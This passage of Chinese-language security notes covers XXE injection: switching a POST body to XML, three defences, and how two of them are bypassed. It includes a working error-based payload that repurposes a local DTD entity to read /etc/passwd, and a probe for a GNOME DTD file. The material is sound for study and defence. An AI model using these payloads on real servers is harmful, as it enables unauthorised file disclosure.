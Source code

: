 7. 更改POST的格式，来实现注入

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

转变为：

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```



防御：

1. 禁止返回实体的内容给客户端
2. 在1基础上，禁止来自外网的DTD引用
3. 将数据部分嵌入到服务器自带的XML

对于1，可以通过引用外部DTD来发送消息，或是报错来绕过；

对于2，可以查找本地的DTD文件，并找到某个实体a，然后重定义a，来执行

```xml-dtd
请求修改 重定义custom_entity
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> //dtd里面只有实体，没有DOCTYPE
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>

```

对于如何查找本地DTD文件，比如，Linux系统如果装了GNOME桌面，那么有/usr/share/yelp/dtd/docbookx.dtd文件，我们可以通过如下方式验证：

```xml-dtd
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

这些通用的DTD文件，通常是开源的，可以去网站或是本地虚拟机上找到相关的资料，查找某个实体（ISOmso）即可
